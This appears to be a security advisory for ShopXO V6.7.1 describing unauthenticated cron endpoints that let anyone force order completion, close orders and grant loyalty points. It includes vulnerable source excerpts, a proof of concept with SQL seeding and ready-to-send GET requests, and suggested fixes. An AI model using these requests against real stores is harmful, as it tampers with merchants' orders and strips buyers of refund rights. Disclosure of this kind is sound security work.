

# Gong Fuxiang ShopXO V6.7.1 app/api/controller/Crontab.php Unauthenticated Cron Endpoint Trigger leads to Forced Order Confirmation and Business-Logic Tampering

# NAME OF AFFECTED PRODUCT(S)

- ShopXO

## Vendor Homepage

- https://www.shopxo.net/

# AFFECTED AND/OR FIXED VERSION(S)

## submitter

- yunyan05

## Vulnerable File

- app/api/controller/Crontab.php

## VERSION(S)

- V6.7.1

## Software Link

- https://github.com/gongfuxiang/shopxo/releases/tag/v6.7.1

# PROBLEM TYPE

## Vulnerability Type

- Missing Authorization on Cron-Task Endpoints leads to Business-Logic Tampering (CWE-862 + CWE-840)

## Root Cause

- A pre-authentication business-logic tampering vulnerability was identified within the `app/api/controller/Crontab.php` file (`OrderClose`, `OrderSuccess`, `PayLogOrderClose`, `GoodsGiveIntegral` methods) of the ShopXO project. These four endpoints are designed to be invoked by an operating-system cron scheduler, yet they are exposed as ordinary HTTP routes (`/api.php?s=crontab/<action>`) without any authorization, signed token, or source-IP whitelist. Three independent flaws are stacked:
  1. The parent controller `app/api/controller/Common.php::__construct` only calls `UserService::LoginUserInfo()` to populate `$this->user` and does not enforce a login; the helper method `IsLogin()` is defined in the parent class but is never invoked from `Crontab.php`.
  2. None of the four `Crontab` action methods carry a per-method authorization annotation (`@middleware`), a manual `$this->IsLogin()` call, or any equivalent gate.
  3. The downstream service layer `app/service/CrontabService.php` does not perform any caller validation either — no cron-only token check, no source-IP whitelist, no rate limiting; the methods unconditionally execute the database write operations they encapsulate.

## Impact

- Exploiting this vulnerability allows an unauthenticated remote attacker to invoke production cron tasks at will via a single HTTP GET request. The most damaging endpoint, `OrderSuccess`, locates all orders whose `delivery_time` is older than the configured "auto-confirm" window (default 15 days) and `status = 3` (shipped, awaiting buyer confirmation), and atomically transitions each of them to `status = 4` (completed) while triggering four downstream side effects: integral / loyalty-point granting, goods sales-count increment, system message dispatch to the buyer, and order-history logging. The realised impact in a production deployment is: (a) buyers are deprived of their statutory 7-day no-reason refund / dispute window because their order is forcibly advanced to "completed"; (b) merchant-configured promotional integrals are released prematurely, disturbing campaign accounting; (c) goods sales statistics and historical order logs are polluted with attacker-triggered events that appear to originate from the legitimate cron user (operator_user_id=0); (d) system messages with text such as "your order has been confirmed" are pushed to the buyer, providing a credible cover story for the unauthorised state change. Companion endpoints `OrderClose` (mass-closes overdue unpaid orders + rolls back inventory), `PayLogOrderClose` (closes overdue pay logs), and `GoodsGiveIntegral` (prematurely grants goods-bound integrals) provide additional pressure surfaces against merchant operations and a lightweight DoS primitive via repeated invocation.

# DESCRIPTION

- During the security assessment of ShopXO V6.7.1 (release 2025-10-28), I identified an unauthenticated business-logic tampering vulnerability in `app/api/controller/Crontab.php`. The four public methods `OrderClose`, `OrderSuccess`, `PayLogOrderClose` and `GoodsGiveIntegral` are exposed through the `api.php` entry file at routes `/api.php?s=crontab/<action>` and are reachable without any authentication, session cookie, or signed cron token. The parent controller `app/api/controller/Common.php::__construct` only retrieves the session user into `$this->user` without enforcing presence; the helper `IsLogin()` exists in the parent but is never called from this controller, and none of the four action methods carry a per-method authorization gate. The vulnerability was demonstrated end-to-end in a local phpstudy deployment by seeding a single qualifying order (`status = 3`, `delivery_time` set to 20 days in the past) and issuing one unauthenticated HTTP GET to `/shopxo/api.php?s=crontab/ordersuccess`; the server responded with `sucs:1, fail:0` and the database row was atomically transitioned from `status = 3` to `status = 4` with `collect_time` populated to the request timestamp, providing a full pre-state / trigger / post-state evidence chain. Immediate corrective actions are essential to safeguard buyer rights and protect merchant operational integrity.

# No login or authorization is required to exploit this vulnerability

# Vulnerability details and POC

## Vulnerability location:

- `app/api/controller/Crontab.php` :: `OrderClose()` / `OrderSuccess()` / `PayLogOrderClose()` / `GoodsGiveIntegral()` (lines 22–78, four sibling public actions)
- `app/api/controller/Common.php` :: `__construct()` (lines 75–94 — `IsLogin()` defined at line 152 but never invoked from `Crontab.php`)
- `app/service/CrontabService.php` :: `OrderSuccess()` (lines 102–161 — the primary sink demonstrated in this submission)
- `app/service/CrontabService.php` :: `OrderClose()` (lines 37–91)
- `app/service/CrontabService.php` :: `PayLogOrderClose()` (lines 172–188)
- `app/service/CrontabService.php` :: `GoodsGiveIntegral()` (lines 199 onward)
- Vulnerable request: GET, path-only — no parameters required

Vulnerable source — controller layer (V6.7.1):

```php
// app/api/controller/Crontab.php
namespace app\api\controller;
use app\service\CrontabService;

class Crontab extends Common
{
    public function OrderClose()
    {
        $ret = CrontabService::OrderClose();
        return 'sucs:'.$ret['data']['sucs'].', fail:'.$ret['data']['fail'];   // [flaw 2] no auth gate
    }

    public function OrderSuccess()       // ★ primary sink demonstrated below
    {
        $ret = CrontabService::OrderSuccess();
        return 'sucs:'.$ret['data']['sucs'].', fail:'.$ret['data']['fail'];   // [flaw 2] no auth gate
    }

    public function PayLogOrderClose()  { /* same pattern */ }                // [flaw 2] no auth gate
    public function GoodsGiveIntegral() { /* same pattern */ }                // [flaw 2] no auth gate
}
```

Vulnerable source — parent controller (V6.7.1):

```php
// app/api/controller/Common.php
public function __construct()
{
    SystemService::SystemInstallCheck();
    $this->SystemInit();
    SystemService::SystemBegin($this->data_request);
    $this->SiteStstusCheck();
    $this->FormTableInit();
    $this->CommonInit();          // → only populates $this->user, does NOT enforce login
}

private function CommonInit()
{
    $this->user = UserService::LoginUserInfo();    // [flaw 1] retrieves user, no presence check
    // ... module / controller / action name + pagination init only
}

protected function IsLogin()
{
    if(empty($this->user)) {
        exit(json_encode(DataReturn(MyLang('login_failure_tips'), -400)));
    }
}
// [flaw 1] IsLogin is DEFINED here but is NEVER CALLED from app/api/controller/Crontab.php.
```

Vulnerable source — service layer sink (V6.7.1):

```php
// app/service/CrontabService.php :: OrderSuccess()
public static function OrderSuccess($params = [])
{
    $time = time() - (intval(MyC('common_order_success_limit_time', 21600, true)) * 60);
    // default 21600 minutes = 15 days

    $where = [
        ['delivery_time', '<', $time],   // shipped more than 15 days ago
        ['status', '=', 3],              // status = 3 (shipped, awaiting buyer confirmation)
    ];
    $order = Db::name('Order')->where($where)->field('id,status,user_id')->select()->toArray();

    if (!empty($order)) {
        $upd_data = [
            'status'        => 4,         // ★ forced advance to "completed"
            'collect_time'  => time(),
            'upd_time'      => time(),
        ];
        foreach ($order as $v) {
            Db::startTrans();
            if (Db::name('Order')->where(['id'=>$v['id'], 'status'=>3])->update($upd_data)) {  // ★ Sink
                IntegralService::OrderGoodsIntegralGiving(['order_id'=>$v['id']]);             // side-effect 1
                OrderService::GoodsSalesCountInc(['order_id'=>$v['id'], 'opt_type'=>'collect']); // side-effect 2
                MessageService::MessageAdd($v['user_id'], $message['title'], $message['desc'], $message['type'], $v['id']); // side-effect 3
                OrderService::OrderHistoryAdd($v['id'], 4, $v['status'], $status_history['desc'], 0, $status_history['type']); // side-effect 4
                Db::commit();
                $sucs++;
            } else {
                Db::rollback();
                $fail++;
            }
        }
    }
    return DataReturn(MyLang('operate_success'), 0, ['sucs'=>$sucs, 'fail'=>$fail]);
}
```

## Payload:

```makefile
Step 1 — seed one order matching the trigger window (status=3, delivery_time more than 15 days old)
         to provide a deterministic pre-state for the demonstration. In a production deployment such
         orders exist naturally as part of normal buyer behaviour (shipped-but-not-yet-confirmed):

    INSERT INTO sxo_user (id, number_code, status, salt, pwd, username, nickname, mobile, add_time, upd_time)
    VALUES (9001, 'TESTUSR9001', 0, 'aaaaaa', MD5(CONCAT('aaaaaa','123456')),
            'testbuyer', 'test buyer', '13800000001', UNIX_TIMESTAMP(), UNIX_TIMESTAMP());

    INSERT INTO sxo_order
        (order_no, user_id, payment_id, status, pay_status,
         buy_number_count, price, total_price, pay_price,
         pay_time, confirm_time, delivery_time, add_time, upd_time)
    VALUES
        (CONCAT('SSRF', UNIX_TIMESTAMP()), 9001, 1, 3, 1,
         1, 99.00, 99.00, 99.00,
         UNIX_TIMESTAMP() - 86400*25,
         UNIX_TIMESTAMP() - 86400*30,
         UNIX_TIMESTAMP() - 86400*20,   -- shipped 20 days ago > 15-day threshold
         UNIX_TIMESTAMP() - 86400*30,
         UNIX_TIMESTAMP());
    SET @oid = LAST_INSERT_ID();

    INSERT INTO sxo_order_detail
        (user_id, order_id, goods_id, title,
         original_price, price, total_price, buy_number, add_time, upd_time)
    VALUES
        (9001, @oid, 1, 'test goods', 99.00, 99.00, 99.00, 1,
         UNIX_TIMESTAMP() - 86400*30, UNIX_TIMESTAMP());

Step 2 — trigger the unauthenticated cron endpoint (no cookie, no body, no parameters):

    GET /shopxo/api.php?s=crontab/ordersuccess HTTP/1.1
    Host: <target>

Step 3 — server responds with the canonical sucs/fail counter from CrontabService::OrderSuccess(),
         and the database row has been atomically advanced from status=3 to status=4 with
         collect_time populated to the request timestamp.

Companion endpoints (same unauthenticated reachability, same routing pattern):

    GET /shopxo/api.php?s=crontab/orderclose          → close all overdue unpaid orders + inventory rollback
    GET /shopxo/api.php?s=crontab/paylogorderclose    → close all overdue pay logs
    GET /shopxo/api.php?s=crontab/goodsgiveintegral   → prematurely grant goods-bound integrals
```

## Vulnerability Request Packet

```makefile
GET /shopxo/api.php?s=crontab/ordersuccess HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/150.0.0.0 Safari/537.36
Accept: application/json
Connection: close
```

Server response (HTTP 200, plain-text JSON-encoded scalar) — the canonical `sucs:N, fail:M` payload originates from `Crontab.php:47` and proves the cron handler executed without authentication; the values are non-zero because the local test database now contains one qualifying order:

```http
HTTP/1.1 200 OK
Date: Fri, 15 May 2026 08:30:00 GMT
Server: Apache/2.4.39 (Win64) OpenSSL/1.1.1b mod_fcgid/2.3.9a mod_log_rotate/1.02
X-Powered-By: PHP/8.2.9
Content-Type: application/json; charset=utf-8
Content-Length: 16
Connection: close

"sucs:1, fail:0"
```

## The following are screenshots of the database pre-state, the unauthenticated request, and the database post-state — together constituting the complete pre-state / trigger / post-state evidence chain:




After the request above, the buyer's statutory 7-day no-reason refund / dispute window for the affected order is permanently closed; the four downstream side effects (integral granting, sales-count increment, system message dispatch, order-history logging) have also been committed atomically in the same transaction. Repeating the request against the three companion endpoints reproduces the same unauthenticated reachability for `OrderClose`, `PayLogOrderClose`, and `GoodsGiveIntegral` — full unauthenticated business-logic tampering is achieved.

# Suggested repair

1. **Enforce authentication on the cron controller, not on each action separately.**
   Add an explicit constructor in `app/api/controller/Crontab.php` that calls a dedicated cron-only gate before any action method is reached. The gate must verify either a long random shared secret (via `X-Cron-Token` header or `token` query parameter, compared with `hash_equals()`) or the source IP against a configurable whitelist (default `127.0.0.1`).
   ```php
   class Crontab extends Common
   {
       public function __construct()
       {
           parent::__construct();
           $this->CronAuth();
       }

       private function CronAuth()
       {
           $token = MyC('common_crontab_token', '', true);
           $allow = MyC('common_crontab_allow_ip', '127.0.0.1', true);
           if (!empty($token)) {
               $given = $_GET['token'] ?? ($_SERVER['HTTP_X_CRON_TOKEN'] ?? '');
               if (!hash_equals($token, $given)) {
                   exit(json_encode(DataReturn('forbidden', -403)));
               }
           } elseif (!in_array($_SERVER['REMOTE_ADDR'] ?? '', array_filter(explode(',', $allow)))) {
               exit(json_encode(DataReturn('forbidden', -403)));
           }
       }
   }
   ```

2. **Document the secure cron configuration for operators.**
   Update the installation / operations documentation to instruct operators to set `common_crontab_token` to a high-entropy value and update their OS-level cron schedule to pass the token, for example:
   ```cron
   */5 * * * * curl -s 'http://127.0.0.1/api.php?s=crontab/orderclose&token=<long-random>' >/dev/null
   ```
   On hardened deployments, prefer running cron tasks via CLI (`php think run-cron` or equivalent) instead of HTTP, eliminating the public attack surface entirely.

3. **Move the gate into a framework middleware so it cannot be silently skipped.**
   Add a `CronAuth` middleware under `app/middleware.php` and register it on the `Crontab` controller via ThinkPHP's controller-level middleware mechanism. Annotation-based gates are easier to audit ("which controllers do not declare middleware?") than implicit constructor calls and are harder to remove during refactors.

4. **Do not echo aggregate processing counts in the response.**
   The current `sucs:N, fail:M` plain-text response in `Crontab.php:34/47/60/75` leaks the size of the affected order set to the caller, which is useful for reconnaissance even if the endpoint is later authenticated. Return a uniform `"ok"` / `"error"` JSON response and write the per-call statistics to the server-side log only.

5. **Rate-limit the cron endpoints.**
   Even after authentication is enforced, apply a per-IP and per-token rate limit (for example, one request per minute) to the `/api.php?s=crontab/*` family so that a compromised cron token cannot be used to repeatedly trigger inventory rollback and integral granting against operational state.

6. **Apply audit logging on the cron endpoints.**
   Log every cron invocation (source IP, controller / action, supplied token fingerprint, success / failure, affected row count) so that abuse and credential leakage are detectable post-hoc.
